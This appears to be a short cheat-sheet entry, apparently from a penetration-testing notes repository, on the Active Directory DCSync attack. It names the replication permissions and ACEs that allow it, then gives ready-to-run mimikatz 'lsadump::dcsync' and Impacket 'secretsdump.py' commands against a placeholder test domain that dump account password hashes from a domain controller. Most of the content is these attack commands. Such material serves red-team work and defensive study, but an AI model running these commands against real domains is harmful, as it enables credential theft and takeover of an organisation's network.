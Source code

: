 If a computer, user, group has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All permission on the domain, it can perform DCSync attack.
These two permissions allow a principal to perform a DCSync attack.

These permissions can be granted by having these ACEs:
	- `AllExtendedRights`
	- `GenericAll`

---
### mimikatz
```powershell
lsadump::dcsync /domain:testlab.local /user:Administrator
```

### secretdump.py
```bash
secretsdump.py 'testlab.local'/'Administrator':'Password'@'DOMAINCONTROLLER'
```




